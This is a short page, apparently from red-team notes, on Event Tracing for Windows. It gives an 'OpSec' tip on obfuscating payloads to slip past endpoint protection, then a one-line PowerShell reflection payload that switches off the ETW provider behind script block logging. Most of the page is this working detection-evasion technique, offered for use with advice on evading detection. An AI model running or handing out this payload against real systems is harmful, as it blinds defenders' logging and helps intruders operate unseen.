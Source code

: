 ```yaml
---
title: ETW
---
```


Endpoint protections use *Event Tracing for Windows* as an additional source of information.

> **OpSec:**
> The payloads below require obfuscation.
> Heavily obfuscated payloads are detected more frequently than payloads that are only slightly modified in the right places.

Disable script block logging in PowerShell ([source](https://gist.github.com/tandasat/e595c77c52e13aaee60e1e8b65d2ba32)).

~~~ ps1
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled', 'NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider', 'NonPublic,Static').GetValue($null), 0)
~~~

References:

- [twitter.com/nas_bench/status/1646252357020205060](https://twitter.com/nas_bench/status/1646252357020205060), since Powershell 5 script blocks with certain suspicious keywords get logged regardless of the actual logging policy
